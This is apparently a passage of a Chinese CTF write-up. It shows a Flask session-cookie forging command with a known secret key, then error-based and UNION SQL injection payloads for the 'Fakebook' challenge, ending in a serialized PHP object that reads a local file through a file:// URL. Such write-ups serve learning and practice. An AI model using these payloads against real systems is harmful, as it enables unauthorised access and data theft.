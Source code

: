 ```s
加密
$ python{2,3} flask_session_cookie_manager{2,3}.py encode -s "ckj123" -t "{'_fresh': True, '_id': b'e4fea746b619e757fef8eb6fe45b963d0c391cbef50f551d746e589714863a56eef2661b57eef7455fe5651527c7634198ab6bcca1b25110a506c920ef485e9f', 'csrf_token': b'4fcbfd4b9451d7076f3dc2872ecbd2a52066c106', 'image': b'UVrJ', 'name': 'admin', 'user_id': '10'}"


.eJw9kE2PgjAURf_K5K1Z2CobE3cgYdFHcAqkb2MYQGihToIaPoz_fRozcX3uPTfvPeF8GZtbB_v7-Gg8OOsa9k_4-oE9kDxZKsItBqTRhD7JiiGngUw3KEOWZMqU6bng6aRW4YsCNRWKiUgxlMce15STzHaJrGYMWpcLGdrc9WOO5qhR1oPLO3_GyGYMTTajjLdqrbhY0zmRXed2tOLYiSJeUIaziEImAjKJjCfX3SRBPiSFOsDLg-o2Xs733765fk7AiIyy1GMU-25mpqCacCUr-MkI026FzR1PFyWzRQSKqzWcsD28ddqWbfMx5Tkt3__kWloHoKytvoIHj1szvv8GbAOvP6-LbQI.YZz62Q.ZzGTTvS2bHfLIZhDxCR04tbEhqo
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/4d270b459de6450182da57cbe0851058.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAU3ByaW50IzUxMjY0,size_20,color_FFFFFF,t_70,g_se,x_16)

========================================================

# [网鼎杯 2018]Fakebook

1. 登录之后view.php页面存在sql注入

2. 同时观察源码发现内容以data文件流写出

![在这里插入图片描述](https://img-blog.csdnimg.cn/dcf7394120634faa89d75a9e38b9dcf8.png)

3. payload

```s
view.php?no=1 and updatexml(1,concat('~',(select database()),'~'),1)#
view.php?no=1 and updatexml(1,concat('~',(select table_name from information_schema.columns where table_schema=database() limit 1,1),'~'),1)#
view.php?no=1 and updatexml(1,concat('~',(select column_name from information_schema.columns where table_name='users' limit 1,1),'~'),1)#

# fakebook->users->username,passwd,data

view.php?no=1 and updatexml(1,concat('~',(select right(data,70) from users),'~'),1)#

# right($s,$x)中参数x从100缩小可以得到完整内容

#O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:12;s:4:"blog";s:29:"file:///var/www/html/flag.php";}

#这里的blog内容已经构造好了

最终

view.php?no=-1/**/union/**/select/**/1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:12;s:4:"blog";s:29:"file:///var/www/html/flag.php";}' from users#


```
